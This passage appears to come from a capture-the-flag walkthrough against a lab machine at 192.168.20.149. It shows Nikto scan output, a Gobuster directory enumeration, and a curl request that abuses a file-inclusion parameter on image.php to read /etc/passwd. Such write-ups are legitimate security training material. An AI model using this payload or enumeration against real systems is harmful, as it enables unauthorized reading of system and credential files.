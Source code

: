 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
\+ OSVDB-3233: /icons/README: Apache default file found.

\+ 7915 requests: 0 error(s) and 6 item(s) reported on remote host

\+ End Time: 2019-09-09 10:43:43 (GMT-4) (59 seconds)

\---------------------------------------------------------------------------

\+ 1 host(s) tested

### GoBuster

Scanning the webserver for hidden directories.

root\@kali:\~\# gobuster dir -u 192.168.20.149 -w
/usr/share/wordlists/dirb/common.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://192.168.20.149

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirb/common.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Timeout: 10s

===============================================================

2019/09/09 10:47:25 Starting gobuster

===============================================================

/.htpasswd (Status: 403)

/.hta (Status: 403)

/.htaccess (Status: 403)

/dev (Status: 200)

/index.php (Status: 200)

/javascript (Status: 301)

/server-status (Status: 403)

/wordpress (Status: 301)

===============================================================

2019/09/09 10:47:29 Finished

```